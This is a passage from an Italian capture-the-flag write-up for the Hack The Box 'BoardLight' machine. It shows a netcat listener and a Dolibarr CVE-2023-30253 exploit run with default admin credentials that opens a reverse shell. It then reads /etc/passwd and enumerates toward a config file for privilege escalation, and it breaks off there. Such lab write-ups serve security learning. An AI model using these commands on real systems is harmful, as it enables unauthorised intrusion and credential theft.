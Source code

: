 Possiamo ottenere l'accesso sia manualmente come mostrato nel PoC sia attraverso lo script.py fornito nella repo.

ovviamente ci mettiamo in ascolto con nc 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1010
listening on [any] 1010 ...
```

ed eseguiamo l'exploit

```bash
┌──(kali㉿kali)-[~/htb/boardlight/Dolibarr-17.0.0-Exploit-CVE-2023-30253]
└─$ ./exploit.py http://crm.board.htb admin admin 10.10.14.49 1010
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
```

e abbiamo la nostra shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1010
listening on [any] 1010 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.11] 39260
bash: cannot set terminal process group (889): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

# PRIVESC

## www-data ---> larissa

il file `etc/passwd` ci mostre che abbiamo utente di nome `larissa` che ha accesso ad un shell bash proviamo a vedere se troviamo in giro le sue credenziali, nella speranza che abbia privilegi piu alti dei nostri 
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep bash
hat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```


Dopo un po di enumerazione in giro ci imbattiamo in questo file `conf.php` al seguente percorso `www-data@boardlight:~/html/crm.board.htb/htdocs/conf$`
